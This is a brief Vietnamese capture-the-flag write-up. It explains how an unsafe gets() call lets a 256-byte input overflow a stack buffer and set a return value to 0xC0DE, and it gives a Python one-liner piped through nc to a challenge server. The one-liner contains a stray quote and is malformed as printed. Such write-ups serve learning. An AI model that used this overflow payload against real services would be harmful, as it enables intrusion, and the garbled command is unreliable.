


# Solve
> Mở file bằng ida ta có:



Để có được flag thì v4 phải bằng 0xC0DE.
mà `v4 = choice()`
Chạy đến hàm choice() để xem giá trị của v4 được tính như thế nào.




Nhìn vào đó có thể thấy được v49 là giá trị trả về.
Địa chỉ của v49 trong stack là: `bp-110h`
Đại chỉ của s trong stack là: `bp-210h`
`gets(&s);` là hàm không an toàn thế nên nếu nhập vào một xâu có độ dài vượt quá `0x210-0x110 = 256` thì sẽ bị tràn giá trị xuống v49.

Từ đó ta có cú pháp sau:
```cmd
python -c"print 'a'*256'+'\xde\xc0\x00\x00'" | nc 103.237.99.35 25033
```
